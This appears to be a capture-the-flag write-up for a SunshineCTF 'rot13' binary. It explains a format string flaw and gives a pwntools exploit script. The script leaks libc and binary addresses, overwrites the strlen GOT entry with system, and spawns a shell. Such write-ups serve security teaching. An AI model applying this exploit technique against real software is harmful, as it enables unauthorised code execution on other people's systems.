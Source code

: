 The issue is that it prints the encoded text directly with `printf(s);` so we have a pretty basic format string vulnerability with the addition of having to rot13 our payload first:

```python
#!/usr/bin/env python2
from pwn import *
import string

rot13 = string.maketrans(
    "ABCDEFGHIJKLMabcdefghijklmNOPQRSTUVWXYZnopqrstuvwxyz",
    "NOPQRSTUVWXYZnopqrstuvwxyzABCDEFGHIJKLMabcdefghijklm")
def rot(s):
  return string.translate(s, rot13)

def get_data():
    p.recvuntil(" data: ")
    resp = p.recvuntil("\n\nEnter some text", drop=True)
    return resp

def send_payload(payload):
    log.info("payload = %s" % repr(payload))
    p.sendline(rot(payload))
    return get_data()

def exploit():
  p.sendlineafter("encrypted:", rot("%2$p"))
  leak1 = int(get_data()[2:],16)
  libc.address = leak1 -  0x25325
  log.info("libc: 0x{:x}".format(libc.address))

  p.sendlineafter("encrypted:", rot("%3$p"))
  leak = int(get_data()[2:],16)
  binary.address = leak - 0x95b
  log.info("binary: 0x{:x}".format(binary.address))

  format_string = FmtStr(execute_fmt=send_payload)
  format_string.write(binary.got["strlen"], libc.symbols["system"])
  format_string.execute_writes()

  p.sendline("/bin/sh")
  p.interactive()

if __name__ == "__main__":
  name = "./rot13"
  binary = ELF(name)

  libc_name = "./rot13-libc.so"
  libc = ELF(libc_name)

  if len(sys.argv) > 1:
    p = remote("chal1.sunshinectf.org", 20006)
  else:
    p = process(name, env={'LD_PRELOAD': libc_name})
```
